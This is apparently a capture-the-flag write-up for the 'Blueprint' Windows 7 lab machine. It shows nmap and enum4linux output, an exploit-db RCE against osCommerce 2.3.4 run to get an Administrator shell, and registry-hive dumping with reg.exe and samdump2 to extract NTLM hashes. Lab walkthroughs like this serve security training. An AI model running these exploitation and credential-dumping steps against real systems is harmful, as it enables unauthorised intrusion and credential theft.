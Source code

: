 **Hostname:** `BLUEPRINT`

**OS:** Windows 7

**Users:**
```
Lab
```

**Credentials:**
```
Lab:googleplus
```

===============================================================

## Port Scan:

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-30T10:50:22
|_  start_date: 2025-05-30T10:41:52
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:ba:ce:fe:ba:b5 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -29m01s, deviation: 34m37s, median: -9m02s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-30T11:50:22+01:00

```

## Recon:

### SMB:

**enum4linux:**

```
Nbtstat Information for 10.10.91.33:

Looking up status of 10.10.91.33
	BLUEPRINT       <00> -         B <ACTIVE>  Workstation Service
	WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	BLUEPRINT       <20> -         B <ACTIVE>  File Server Service
	WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
	WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

	MAC Address = 02-BA-CE-FE-BA-B5


Share Enumeration on 10.10.91.33:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      
	Windows         Disk      

[+] Attempting to map shares on 10.10.91.33

//10.10.91.33/ADMIN$	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.91.33/C$	Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_INVALID_PARAMETER listing \*
//10.10.91.33/IPC$	Mapping: N/A Listing: N/A Writing: N/A
//10.10.91.33/Users	Mapping: OK Listing: OK Writing: N/A
//10.10.91.33/Windows	Mapping: OK Listing: DENIED Writing: N/A

Password Policy Information for 10.10.91.33:

[+] Attaching to 10.10.91.33 using anonymous

[+] Trying protocol 139/SMB...

	[!] Protocol failed: Cannot request session (Called Name:10.10.91.33)

[+] Trying protocol 445/SMB...

[+] Found domain(s):

	[+] BLUEPRINT
	[+] Builtin

[+] Password Info for Domain: BLUEPRINT

	[+] Minimum password length: None
	[+] Password history length: None
	[+] Maximum password age: Not Set
	[+] Password Complexity Flags: 000000

		[+] Domain Refuse Password Change: 0
		[+] Domain Password Store Cleartext: 0
		[+] Domain Password Lockout Admins: 0
		[+] Domain Password No Clear Change: 0
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0

	[+] Minimum password age: None
	[+] Reset Account Lockout Counter: 30 minutes 
	[+] Locked Account Duration: 30 minutes 
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: Not Set```
```

**Anonymous login:**

```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$                            Remote IPC
Users           READ            
Windows
```

### Web Enumeration:

**Vulnerable CMS on port 8080:**
Port 8080 is an HTTP server running an oscommerce 2.3.4 CMS which is vulnerable to Unauthenticated Remote Code Execution by injecting a PHP payload into the db_database parameter of the install.php and read the system command output from configure.php.
https://www.exploit-db.com/exploits/50128

## Foothold / Privilege Escalation:

### Initial Foothold:

After enumerating and manual inspection of port 8080 I found that the server was running a vulnerable version of the OScommerce CMS specifically version 2.3.4, which is vulnerable to an Unauthenticated Remote Code Execution vulnerability.

![CMS_directory](../pictures/blueprint/CMS_directory.png)

I found a working script on the exploit-db.com site and used it's syntax to get a shell.
`python exploit.py http://$IP:8080/oscommerce2.3.4/catalog/`

![exploit_db_page](../pictures/blueprint/exploit_db_code.png)

![exploit_execute](../pictures/blueprint/exploit_run.png)

---

### Privilege Escalation:

As I ran the exploit and got a shell, I ran `whoami` and found that the RCE exploit
gives an Administrator shell. I could just into the Administrator directory and extract the root flag.

## Journal:
### User NTLM Hashes:
- Located in registries SAM, SECURITY and SYSTEM
I dumped the hashes using reg.exe:\
`reg.exe save hklm\sam SAM`\
`reg.exe save hklm\security SECURITY`\
`reg.exe save hklm\system SYSTEM`
- This saved the registries to my current working directory

![hash_registry_files_extracting](../pictures/blueprint/hash_registry_extract.png)

To dump the hashes out of the registry files I used a tool called '**samdump2'**:
```
$ samdump2 SYSTEM SAM
Administrator:500:...
Guest:501:...
Lab:1000:...
```

![hash_registry_dump](../pictures/blueprint/hash_dump.png)
